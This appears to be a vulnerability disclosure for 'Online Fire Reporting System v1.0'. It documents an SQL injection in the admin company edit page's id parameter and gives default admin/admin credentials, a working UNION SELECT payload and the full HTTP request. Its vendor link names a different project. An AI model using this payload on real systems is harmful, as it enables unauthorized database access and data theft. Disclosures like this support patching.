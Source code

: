# Online Fire Reporting System v1.0  has SQL injection

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/admin/company/index.php?view=edit&id=

Vulnerability location: /eris/admin/company/index.php?view=edit&id=,id

Current database name: erisdb

[+] Payload: /eris/admin/company/index.php?view=edit&id=-3%27%20union%20select%201,database(),3,4,5,6--+ // Leak place ---> id

```sql
GET /eris/admin/company/index.php?view=edit&id=-3%27%20union%20select%201,database(),3,4,5,6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=mho0fs263l0tis8l6v3lqpu6q4
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170849041-4b0d81d6-8f1f-4a07-9166-ae5e670e336d.png)

![image](https://user-images.githubusercontent.com/54017627/170848995-09be03d4-6073-4810-afbc-053ede963d39.png)
